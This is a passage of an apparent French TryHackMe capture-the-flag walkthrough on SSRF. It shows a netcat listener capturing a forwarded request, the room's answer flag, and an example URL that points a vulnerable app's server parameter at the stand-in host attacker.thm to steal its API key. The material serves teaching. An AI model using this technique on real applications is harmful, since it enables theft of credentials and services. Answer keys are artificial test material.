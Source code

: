 ```bash
┌──(omnimessie㉿omnimessie)-[~/Downloads]
└─$ nc -lvp 80    
listening on [any] 80 ...
10.10.2.128: inverse host lookup failed: Unknown host
connect to [10.9.1.199] from (UNKNOWN) [10.10.2.128] 46164
GET /public-docs-k057230990384293/75482342.pdf HTTP/1.1
Host: 10.9.1.199
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
X-API-KEY: THM{Hello_Im_just_an_API_key}
```

Nous pouvons clairement voir la clé API dans l'en-tête `X-API-KEY` de la requête interceptée !

**Réponse :** `THM{Hello_Im_just_an_API_key}`

### Task 23 - 10. Server-Side Request Forgery (SSRF)

**Contrefaçon de requête côté serveur**

Ce type de vulnérabilité se produit lorsqu'un attaquant peut contraindre une application Web à envoyer des requêtes en son nom vers des destinations arbitraires tout en contrôlant le contenu de la requête elle-même. Les vulnérabilités `SSRF` proviennent souvent d'implémentations dans lesquelles notre application Web doit utiliser des services tiers.

Pensez, par exemple, à une application Web qui utilise une **API externe** pour envoyer des notifications par SMS à ses clients. Pour chaque e-mail, le site Web doit faire une requête Web au serveur du fournisseur SMS pour envoyer le contenu du message à envoyer. Étant donné que le fournisseur de SMS facture par message, il vous demande d'ajouter une clé secrète, qu'il vous pré-attribue, à chaque requête que vous faites à son API. La clé API sert de jeton d'authentification et permet au fournisseur de savoir à qui facturer chaque message. L'application fonctionnerait comme ceci :

![SSRF](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/271d0075650cdf6499f994f99fa7eb8a.png)

En regardant le schéma ci-dessus, il est facile de voir où se situe la vulnérabilité. L'application expose le paramètre de serveur aux utilisateurs, qui définit le nom du serveur du fournisseur de services SMS. Si l'attaquant le souhaitait, il pourrait simplement modifier la valeur du serveur pour pointer vers une machine qu'il contrôle, et votre application Web transmettrait volontiers la demande SMS à l'attaquant au lieu du fournisseur SMS. Dans le cadre du message transféré, l'attaquant obtiendrait la clé API, lui permettant d'utiliser le service SMS pour envoyer des messages à vos frais. Pour y parvenir, l'attaquant n'aurait qu'à faire la requête suivante à votre site Web :

```bash
https://www.mysite.com/sms?server=attacker.thm&msg=ABC
```

Cela amènerait l'application Web vulnérable à faire une requête pour :

```bash
https://attacker.thm/api/send?msg=ABC
```

Vous pouvez alors simplement capturer le contenu de la requête à l'aide de `Netcat` :

```bash
user@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```
